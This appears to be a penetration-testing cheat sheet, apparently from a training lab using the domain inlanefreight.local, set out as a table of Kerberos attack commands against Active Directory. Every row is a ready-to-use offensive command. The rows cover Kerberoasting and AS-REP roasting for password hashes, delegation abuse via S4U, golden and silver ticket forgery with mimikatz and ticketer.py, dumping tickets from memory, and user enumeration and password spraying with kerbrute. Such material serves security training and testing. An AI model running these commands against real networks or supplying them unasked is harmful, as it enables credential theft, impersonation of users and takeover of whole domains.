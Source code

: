 | `Command` | `Description` |
| --------------|-------------------|
| `Invoke-Kerberoast`  | Get Kerberoastable accounts & hashes on Windows  |
| `GetUserSPNs.py inlanefreight.local/pixis`  | Get Kerberoastable accounts & hashes on Linux |
| `Get-DomainUser -UACFilter DONT_REQ_PREAUTH`  | Get AS-Rep roastable accounts & hashes on Windows |
| `GetNPUsers.py inlanefreight.local/pixis`  | Get AS-Rep roastable accounts & hashes on Linux |
| `Rubeus.exe monitor /interval:5`  | Monitor TGT copies in TGS every 5 secondes (Unconstrained Delegation) |
| `Rubeus.exe asktgs /ticket:<b64 ticket> /service:<SPN> /ptt`  | Get a TGS using a TGT |
| `Rubeus.exe renew /ticket:<b64 ticket> /ptt`  | Renew a TGT and pass it in memory |
| `Get-DomainComputer -TrustedToAuth`  | Get service accounts with constrained delegation on Windows |
| `Rubeus.exe s4u /impersonateuser:<User> /msdsspn<SPN> /altservice:<SRV> /user:<USR> /rc4:<NT Hash> /ptt`  | Perform a S4U2* attack on Windows |
| `findDelegation.py inlanefreight.local/pixis`  | Get service accounts with delegation on Linux |
| `getST.py -spn <SPN> -hashes :<NT Hash> 'domain/user' -impersonate <user>`  | Perform a S4U2* attack on Linux |
| `mimikatz # kerberos::golden /domain:<domain> /user:<user> /sid:<Domain SID> /rc4:<krbtgt NT hash> /ptt`  | Forge a golden ticket on Windows |
| `ticketer.py -nthash <krbtgt NT hash> -domain-sid :<Domain SID> -domain <domain> <user>`  | Forge a golden ticket on Linux |
| `mimikatz # kerberos::golden /domain:inlanefreight.local /user:<user> /sid:<Domain SID> /rc4: <Service account NT hash> /target:<target service account> /service:<service>  /ptt`  | Forge a silver ticket on Windows |
| `ticketer.py -nthash <Service account NT hash> -domain-sid <Domain SID> -domain <domain> -spn <SPN> <User>`  | Forge a silver ticket on Linux |
| `Rubeus.exe dump /luid:0x89275d /service:krbtgt`  | Dumps TGT in memory |
| `kerbrute userenum users.txt --dc dc01.inlanefreight.local -d inlanefreight.local`  | Enumerate user accounts via Kerberos |
| `kerbrute passwordspray users.txt inlanefreight2020 --dc dc01.inlanefreight.local -d inlanefreight.local`  | Password spraying via TGT request |